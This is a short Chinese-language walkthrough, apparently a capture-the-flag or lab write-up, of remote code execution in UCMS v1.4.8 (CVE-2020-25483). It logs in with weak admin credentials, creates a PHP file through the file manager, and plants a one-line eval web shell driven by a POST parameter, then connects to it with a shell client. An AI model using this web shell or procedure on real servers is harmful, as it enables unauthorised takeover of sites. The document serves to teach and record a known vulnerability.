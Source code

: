 # ucms远程命令执行(CVE-2020-25483)
## 漏洞描述
UCMS v1.4.8版本存在漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。 后台路径：/ucms

## 影响版本
UCMS v1.4.8

## 利用流程
1.访问地址：118.193.36.37:15497/ucms		弱口令登录 admin/123456

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ucms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2020-25483)/1.jpg)
2.选择 文件管理 -> 新建文件并提交

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ucms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2020-25483)/2.jpg)
3.访问生成的文件 并填入想要执行的：
```
<?php phpinfo();?>
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ucms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2020-25483)/3.jpg)
4.访问该网页 发现执行了phpinfo()

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ucms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2020-25483)/4.jpg)
5.返回生成的文件 填入一句话木马
```
<?php eval(@$_POST['a']); ?>
```
连接蚁剑 getflag

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ucms%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C(CVE-2020-25483)/5.jpg)
